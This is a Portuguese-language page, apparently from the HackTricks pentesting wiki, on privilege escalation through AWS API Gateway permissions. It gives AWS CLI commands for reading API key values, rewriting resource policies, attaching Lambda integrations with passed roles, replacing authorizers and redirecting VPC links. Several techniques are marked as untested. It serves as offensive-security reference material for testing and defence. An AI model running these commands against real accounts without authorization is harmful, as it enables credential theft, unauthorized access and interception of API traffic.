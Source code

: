 # AWS - Apigateway Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## Apigateway

Para mais informações, consulte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Com essa permissão, você pode gerar chaves de API das APIs configuradas (por região).

```bash
aws --region <região> apigateway create-api-key
```

**Impacto potencial:** Você não pode escalar privilégios com essa técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:GET`

Com essa permissão, você pode obter as chaves de API geradas das APIs configuradas (por região).

```bash
aws --region apigateway get-api-keys
aws --region <região> apigateway get-api-key --api-key <chave> --include-value
```

**Impacto potencial:** Você não pode escalar privilégios com essa técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Com essas permissões, é possível modificar a política de recursos de uma API para dar a si mesmo acesso para chamá-la e abusar do acesso potencial que o gateway da API pode ter (como invocar uma lambda vulnerável).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
    --rest-api-id api-id \
    --patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impacto potencial:** Você, geralmente, não poderá escalar privilégios diretamente com essa técnica, mas pode obter acesso a informações sensíveis.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Precisa de teste
{% endhint %}

Um atacante com as permissões `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` pode **adicionar uma nova integração a uma API Gateway REST API existente com uma função Lambda que tenha uma função IAM anexada**. O atacante pode então **disparar a função Lambda para executar código arbitrário e potencialmente obter acesso aos recursos associados à função IAM**.

{% code overflow="wrap" %}
```bash
API_ID="seu-id-de-api"
RESOURCE_ID="seu-id-de-recurso"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:região:id-da-conta:function:nome-da-função"
LAMBDA_ROLE_ARN="arn:aws:iam::id-da-conta:role/nome-da-função"

# Adicione uma nova integração à API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:região:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Crie uma implantação para a API Gateway REST API atualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Acesso aos recursos associados à função IAM da função Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Precisa de teste
{% endhint %}

Um atacante com as permissões `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` pode **modificar um autorizador existente da API Gateway** para ignorar verificações de segurança ou para executar código arbitrário quando as solicitações da API são feitas.

{% code overflow="wrap" %}
```bash
API_ID="seu-id-de-api"
AUTHORIZER_ID="seu-id-de-autorizador"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:região:id-da-conta:function:nome-da-função"

# Atualize o autorizador da API Gateway
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:região:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Crie uma implantação para a API Gateway REST API atualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Ignorar verificações de segurança, acesso não autorizado aos recursos da API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Precisa de teste
{% endhint %}

Um atacante com a permissão `apigateway:UpdateVpcLink` pode **modificar um link VPC existente para apontar para um balanceador de carga de rede diferente, redirecionando potencialmente o tráfego da API privada para recursos não autorizados ou maliciosos**.

```bash
bashCopy codeVPC_LINK_ID="seu-id-de-link-vpc"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:região:id-da-conta:loadbalancer/net/nome-do-novo-balanceador-de-carga/50dc6c495c0c9188"

# Atualize o link VPC
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```

**Impacto potencial**: Acesso não autorizado a recursos da API privada, interceptação ou interrupção do tráfego da API. 

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>